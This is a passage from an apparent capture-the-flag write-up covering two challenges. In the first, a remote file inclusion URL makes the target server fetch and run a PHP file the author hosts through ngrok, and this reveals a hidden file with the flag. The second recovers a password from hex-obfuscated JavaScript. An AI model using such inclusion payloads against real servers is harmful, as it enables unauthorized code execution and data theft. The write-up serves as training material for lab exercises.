 To make it available to the server we can use [ngrok](https://ngrok.com/):
```
ngrok http 8080
```

### Executing the remote code

Url to execute the remote code:
```
https://remote.secu-web.blackfoot.dev/?lang=https://d84a-163-5-23-68.eu.ngrok.io/remote.php
```

This appears on the page:
```
., .., hidden_file.html, index.php 
```

At https://remote.secu-web.blackfoot.dev/hidden_file.html we find:
```
Congratz, you can validate with ZOB{sh0uld_h4v3_h1dd3n_b3773r}
```

flag: ```ZOB{sh0uld_h4v3_h1dd3n_b3773r}```

# OBF100

## What it is

(see index.html)

It asks for a password and checks it with obfiscated code.

At around line 9, column 662 we can see:
```js
if(password=== input)
```

At column 597:
```js
var password=_0xf7f7[0]
```

And at column 5:
```js
var _0xf7f7=["\x67\x67\x65\x7A", ...
```

The password is ```\x67\x67\x65\x7A``` and the input is compared directly against it.

## Solution

If we interpret the string we find the password.

```bash
$ echo "\x67\x67\x65\x7A"
ggez
```
